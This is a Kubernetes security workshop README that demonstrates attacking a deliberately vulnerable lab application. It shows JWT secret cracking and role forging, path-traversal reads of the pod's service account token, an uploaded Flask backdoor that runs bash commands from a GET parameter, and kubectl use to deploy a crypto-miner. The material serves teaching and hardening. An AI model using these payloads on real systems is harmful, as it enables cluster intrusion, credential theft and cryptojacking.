






# Exploit Application Vulnerabilities

Application vulnerabilities can bring wide range of different *attack entrypoints*. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.

---

*Kubernetes threat matrix for the demo attack below*

---

## Demo: run a crypto-miner in the cluster

### Attack description:
- **Setup**: a K8s cluster with a web application deployed
- **Attacker**: an external user without any access to the cluster
- **Target**: kubectl access to the cluster (then: cluster compute resources, cluster availability, application data, more)
- **Entrypoint**: web application


## Steps to reproduce

1. deploy [./vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`) and `another-app` (empty)

2. explore the images service: [http://images.vulnerable-app.seck8s.slurm.io](http://images.vulnerable-app.seck8s.slurm.io), [http://images.vulnerable-app.seck8s.slurm.io?token=foo](http://images.vulnerable-app.seck8s.slurm.io?token=foo):
[](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m31s)

3. explore the auth service: [http://auth.vulnerable-app.seck8s.slurm.io/](http://auth.vulnerable-app.seck8s.slurm.io/), sign-up a user:
[](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m56s)

4. login with the newly created user and be redirected to the images service:
[](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=50m14s)

5. side note: it is insecure to pass sensitive information in GET parameters, see how it gets logged to stdout by Flask: [dashboard link](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api/logs)

---

6. copy the JWT token, explore it in [jwt.io](https://jwt.io/):
    - architecture issue: symmetric algorithm (HS256 not RS256) => both services (the one that generates and another that checks the token) use the same secret and therefore *both can issue a new JWT*

7. crack or leak the secret `secret123`:
    - leaked through the K8s configuration (secret mount to the env var `SECRET_KEY` is hard-coded in the manifest): [dashboard auth-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/auth-api), [dashboard images-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api)
    - since the manifests are version-controlled, can be found in the Git commit history (`git blame`): [github link](https://github.com/Slurmio/webinar-seck8s/blob/98bab96647708ab5368b5b51ccdf96dd2071894e/03-application-security/vulnerable-app/images-api/deploy/images-api.yaml#L22) (*vulnerability: [Hard-Coded Credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*. Remember: source code is not secret!)
    - the secret is weak therefore very easy to crack - in minutes with the tool [lmammino/jwt-cracker](https://github.com/lmammino/jwt-cracker) (*vulnerability: Weak Secret*)

8. escalate provileges by changing the `"role": "user"` to `"role": "admin"` in the JWT payload (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
    [](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=53m09s)

9. proceed to `images-api` with the new token, see the admin page
    [](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=53m20s)

---

10. read some files from the pod: `../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token` (pod service account's token and certificate), `../app.py` (source code of the Flask app), `../../../../../../etc/shadow/proc/1/environ` (pod environment variables), etc. (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)* + too high privileges as the pod is running as `root` in the container)
[](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m44s)
[](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m45s)
[](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m56s)

> Note: by now, we acquired the service account credentials to the cluster. If we know the external Kube API address (if it's exposed), then we have the remote kubectl access:
> `kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>`

> However, Kube API is not always exposed, so let's try to get kubectl working from the pod itself.

---

11. upload the new Flask file to `../app.py` with the backdoor activated via GET parameter `cmd` (*vulnerability: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)* -- the attacker can upload file to an arbitrary directory):
    - construct the payload ([payloads/app.py](payloads/app.py)):
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
    <!-- - try to browse [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get Unauthorized -->
    - upload the payload via `curl`:
    ```sh
    TOKEN=<your token>
    curl -vv -o /tmp/out.html -F "file=@payloads/app.py; filename=../app.py" "http://images.vulnerable-app.seck8s.slurm.io/?token=$TOKEN"
    ```
    [](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=57m12s)

    - try again [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get the backdoor shell
    - since the server is in Debug mode, it auto-reloads without restarting the pod

12. use the backdoor to install `kubectl` (note again: the pod is running Ubuntu as `root`) by navigating to `http://images.vulnerable-app.seck8s.slurm.io/?cmd=...`:
    - `kubectl get all`
    - install curl: `apt-get update`, `apt-get -y install curl`
    - install kubectl ([instruction](http://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)):
        - `curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"`
        - `install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl`
    - `kubectl get all`

13. note, the pod's SA has only permissions on Deployments -- it's done by mistake by another developer who accidentally gave extra permissions to the default service account in the namespace `vulnerable-app` (see [vulnerable-app/another-app/deploy/rbac.yaml](vulnerable-app/another-app/deploy/rbac.yaml))

14. now, let's deploy a miner:
    - use the web form [http://images.vulnerable-app.seck8s.slurm.io/?token=...](http://images.vulnerable-app.seck8s.slurm.io/?token=...) to upload the miner's manifest [payloads/monero-deployment.yaml](payloads/monero-deployment.yaml) (note: you need to use the admin JWT token again)
    - use the backdoor to: `kubectl apply -f images/monero-deployment.yaml`

15. or shut down the cluster's payload (Deployment only, permitted by RBAC): `kubectl delete deployment auth-api`

16. cleanup:
    ```sh
    cd vulnerable-app
    k delete -f another-app/deploy
    k -n vulnerable-app delete -f images-api/deploy
    k -n vulnerable-app delete -f auth-api/deploy
    k delete ns vulnerable-app
    cd ../../02-exposed-dashboard/
    k -n exposed-dashboard delete -f kube-web-view/deploy
    k -n exposed-dashboard delete -f kube-web-view/deploy-ingress
    ```

## Takeaways
- Application vulnerabilities are common attack entrypoints, see [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- Try to minimize the attacker's capabilities (use minimal images as alpine, don't run containers as root, note the sensitive information to be hard-coded, minimize privileges of the service accounts, etc)
